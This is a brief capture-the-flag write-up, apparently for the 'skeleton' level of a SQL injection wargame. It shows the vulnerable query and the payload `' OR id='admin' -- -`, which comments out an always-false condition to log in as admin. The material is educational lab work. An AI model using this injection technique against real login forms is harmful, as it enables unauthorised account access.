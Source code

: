 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 10
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/4baddc49-08d9-4c11-a1da-59d9e17e5687)

We are provided with the SQL query:

```sql
SELECT id FROM prob_skeleton WHERE id='guest' AND pw='{$_GET[pw]}' AND 1=0
```

We can provide the following URI parameter:

```
?pw=' OR id='admin' -- -
```

The resultant query then becomes:

```sql
SELECT id FROM prob_skeleton WHERE id='guest' AND pw='' OR id='admin' -- -' AND 1=0

## Queried part:
SELECT id FROM prob_skeleton WHERE id='guest' AND pw='' OR id='admin'

## Commented part:
' AND 1=0
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/373ff0c7-ad97-4cd5-b184-95092bfb7d41)
